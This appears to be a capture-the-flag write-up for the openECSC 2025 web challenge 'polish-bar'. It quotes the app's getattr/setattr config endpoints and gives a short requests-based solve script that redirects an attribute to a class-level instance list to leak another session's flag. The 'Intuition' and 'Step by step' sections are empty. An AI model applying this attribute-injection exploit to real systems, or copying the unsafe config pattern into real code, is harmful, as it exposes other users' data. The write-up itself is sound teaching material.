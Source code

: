 ```yaml
---
title: "openESEC 2025 - web/polish-bar"
layout: single
classes: wide
date: 2025-10-06
categories: blog
toc: true
toc_label: "Table of contents"
---
```


# Polish-bar

> This Web Application was made to adapt to polish (drinking) culture :3

## Primitves

We have http endpoint to register which in turn we need to aquire a valid session. Afterwards, we have the endpoints `config`,`empty` and `beverage` which I mapped to the methods below in the class `BeverageConfig` and `PreferenceConfig`.

```py
    def get_property(self, val):
        try:
            if hasattr(self.alcohol_shelf, val):
                return getattr(self.alcohol_shelf, val)

            return getattr(self, val)
        except:
            return

    # /config
    def update_property(self, key: str, val: str):
        attr = self.get_property(val)
        if attr:
            setattr(self, key, attr)
            return
        return { 'error': 'property doesn\'t exist!' }
    
    # /empty
    def empty_alcohol_shelf(self):
        if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
            self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
        else:
            self.alcohol_shelf = self.alcohol_shelf[0]

    # /beverage
    def add_beverage(self, beverage: str):
        self.alcohol_shelf._alcohol_shelf.append(beverage)

```

Let's disect what each method does:

- `update_property` retrieves the attribute `val` and sets the attribute `key` to its value
- `empty_alcohol_shelf` will shorten the list `self.alcohol_shelf._alcohol_shelf` to its first value to the list `self.alcohol_shelf` to its first value
- `add_beverage` add an item to the list `self.alcohol_shelf._alcohol_shelf`

If you are not familiar with the special methods `getattr`, `setattr` and `hasattr` --- I got you covered in the next section!

Furthermore, the class `PreferenceConfig` and thus `BeverageConfig` due to inheritance have one interesting class variable `_all_instances`. The `__init__` for `PreferenceConfig` append every newly created object to that class as long it inherited from `PreferenceConfig`. 

## Python refresher on instance and objects vars

Below is a small playground I created if you want to try it on your own first. 

<iframe
  src="https://bluuuk.github.io/blog-jupyterlite/lab/index.html?path=/attr.ipynb"
  width="100%"
  height="1000px">
</iframe>


## Intuition


## Step by step guide


## Final Solve

We use an `Session` which automatically glues cookie to subsequent http request once they set - here its the `session` cookie:

```py
import requests
session = requests.Session()
base = "https://3a454160-13f7-4fdc-beaf-ea41d11839cb.openec.sc:1337"

session.post( f"{base}/register", data={"username":"admin","password":"lol"})
session.post(f"{base}/empty")
session.post(f"{base}/config",data={"config":"alcohol_shelf","value":"_all_instances"})
session.post(f"{base}/empty")
print(session.post(f"{base}/profile"))
```

Executing our solve script gives us our well deserved flag :)

```bash
❯ python solve.py | grep open
                    openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}
                               value="openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}">
````
